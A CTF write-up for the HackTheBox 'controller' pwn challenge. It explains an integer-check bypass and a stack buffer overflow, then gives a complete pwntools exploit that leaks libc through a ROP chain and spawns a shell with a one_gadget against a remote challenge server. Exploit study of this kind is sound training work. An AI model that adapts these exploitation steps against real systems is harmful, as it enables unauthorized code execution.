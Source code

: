 ## Hackthebox Cyberapocalypse CTF: controller [pwn]
![](controller_desc.png)

## challenge information
#### We were given a binary with no canary and no PIE enabled along with the challenge libc. Running the program presents us with a calculator themed binary with a prompt for two integer input and a choice for what arithmetic operation to do with those inputs. 

## reverse engineering + vulns
#### After letting ghidra do it's work on the binary, we find out that the program runs in a loop with the following code:
```c

void calculator(void)

{
  char buffer [28];
  int local_c;
  
  local_c = calc();
  if (local_c == 0xff3a) {
    printstr("Something odd happened!\nDo you want to report the problem?\n> ");
    __isoc99_scanf("%s",buffer);
    if ((buffer[0] == 'y') || (buffer[0] == 'Y')) {
      printstr("Problem reported!\n");
    }
    else {
      printstr("Problem ingored\n");
    }
  }
  else {
    calculator();
  }
  return;
}
```

#### We clearly see a possible buffer overflow when we try to "report a problem". the program has no size checks for the size of the string input that will be stored on a 28-byte buffer. However, in order to proceed to this buffer overflow option, we need to pass a check from a value that is returned from `calc()`. 

#### Inspecting calc leads to the code responsible for getting the two integer inputs and performing the operations. An interesting part of the code is what datatype our inputs are being stored in.
```c
  uint input2;
  uint input1;
  int local_10;
  uint local_c;
  
  printstr("Insert the amount of 2 different types of recources: ");
  __isoc99_scanf("%d %d",&input1,&input2);
  local_10 = menu();
  if ((0x45 < (int)input1) || (0x45 < (int)input2)) {
    printstr("We cannot use these many resources at once!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x69);
```
#### Both inputs are stored as unsigned integers which only store integers in the range of `0-4,294,967,295`. We also know that our inputs should be less than 0x45. What happens if we try to input negative integers then? In that case, we may run into an [integer overflow](https://sploitfun.wordpress.com/2015/06/23/integer-overflow/). 

#### Since we can input negative integers, we need to find integers x and y such that when performing any of the possible arithmetic operations on these integers will result to 0xff3a so that we can perform the buffer overflow for code execution. I tested a short z3 script to find the values that I need.

```python
from z3 import *

s = Solver()
a = Int('a')
b = Int('b')

s.add(a - b == 0xff3a)
s.add(a < 0x45)
s.add(b < 0x45)

if s.check():
	print(s.model())

#: returns [a = 68, b = -65270]
```

#### Providing the results into the program allows us to pass the check and submit a "report". We can crash the program by trying to input a long cyclic pattern and examining it on a debugger confirms that we can control the instruction pointer. From this point, we can proceed to do the usual stuff to leak some libc pointers and send a one_gadget payload to pop a shell. 

![](controller_shell.png)

##### exploit script
```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./controller', checksec = False)
libc = ELF('./libc.so.6', checksec = False)

#p = process('./controller', env = {'LD_PRELOAD' : libc.path})
p = remote("165.227.231.249", 32172)

#: GDB SETTINGS
breakpoints = []
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
pop_rdi = 0x4011d3

#: PWN THY VULNS
p.sendlineafter(b':', '68 -65270')
p.sendlineafter(b':', '2') #: subtract

exploit = cyclic(40)
exploit += p64(pop_rdi)
exploit += p64(binary.got.setvbuf)
exploit += p64(binary.sym.puts)
exploit += p64(binary.sym.main)
p.sendline(exploit)

print(p.recvuntil(b'ingored\n'))
setvbuf_leak = u64(p.recvuntil(b'\n').strip().ljust(8, b'\x00'))
libc.address = setvbuf_leak - libc.sym.setvbuf
log.info(hex(setvbuf_leak))
log.info(hex(libc.address))

#: START PHASE2
p.sendlineafter(b':', '68 -65270')
p.sendlineafter(b':', '2') #: subtract

one_gadgets = [0x4f3d5, 0x4f432, 0x10a41c]
exploit = cyclic(40)
exploit += p64(libc.address + one_gadgets[0])
p.sendline(exploit)
p.interactive()
```

